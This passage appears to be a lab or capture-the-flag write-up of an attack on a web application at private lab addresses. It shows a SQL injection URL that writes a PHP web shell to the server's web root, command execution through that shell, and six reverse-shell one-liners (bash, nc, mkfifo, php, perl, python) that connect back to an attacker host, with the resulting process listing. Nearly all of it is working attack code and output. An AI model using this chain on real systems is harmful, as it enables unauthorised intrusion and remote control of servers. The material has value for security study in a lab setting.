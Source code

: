 So I managed to get shell via this method.
* PHP Code
```php
<?php system($_GET["cmd"]);?>
```

* MySQL encoded
```
CHAR(60, 63, 112, 104, 112, 32, 115, 121, 115, 116, 101, 109, 40, 36, 95, 71, 69, 84, 91, 34, 99, 109, 100, 34, 93, 41, 59, 63, 62)
```

* Construct exploit
```
http://192.168.175.141:666/index.php?option=com_abc&view=abc&Itemid=3&sectionid=1 union select 1,CHAR(60, 63, 112, 104, 112, 32, 115, 121, 115, 116, 101, 109, 40, 36, 95, 71, 69, 84, 91, 34, 99, 109, 100, 34, 93, 41, 59, 63, 62) INTO OUTFILE "/var/www/shell.php"--&letter=A
```

* Access our shell
```
http://192.168.175.141:666/shell.php?cmd=id


1 uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```


* Get reverse shell
```
[-] bash -i >& /dev/tcp/192.168.175.128/9991 0>&1

[-] nc -e /bin/sh 192.168.175.128 9991

[-] rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.175.128 9991 >/tmp/f

[-] php -r '$sock=fsockopen("192.168.175.128",9991);exec("/bin/sh -i <&3 >&3 2>&3");'

[-] perl -e 'use Socket;$i="192.168.175.128";$p=9991;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

[+] python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.175.128",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ps
  PID TTY          TIME CMD
 1022 ?        00:00:02 apache2
 1023 ?        00:00:02 apache2
 1024 ?        00:00:03 apache2
 1025 ?        00:00:02 apache2
 1026 ?        00:00:03 apache2
 1349 ?        00:00:02 apache2
 1351 ?        00:00:02 apache2
 1352 ?        00:00:02 apache2
 1353 ?        00:00:02 apache2
 1355 ?        00:00:02 apache2
 1409 ?        00:00:00 sh
 1410 ?        00:00:00 python
 1411 ?        00:00:00 sh
 1413 ?        00:00:00 ps
```
